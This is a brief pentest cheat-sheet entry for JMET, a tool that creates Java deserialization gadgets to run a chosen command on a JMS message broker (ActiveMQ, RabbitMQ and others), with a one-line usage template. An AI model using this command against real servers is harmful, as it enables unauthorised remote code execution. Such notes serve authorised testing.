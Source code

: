 # JMET
#plateform/linux #target/remote #cat/ATTACK/EXPLOIT #tag/java

## jmet - deserialize object from hex file
Create gadgets for executing "<command>" and send them all to queue "<queue>" of the JMS server.
Implementation possible values: [ActiveMQ|Artemis|WebSphereMQ|Qpid10|Qpid09|HornetQ|SwiftMQ|RabbitMQ|OpenMQ]
https://github.com/matthiaskaiser/jmet
```
java -jar jmet.jar -Q event -I <implementation> -Y "<coammd>" <target> <port>
```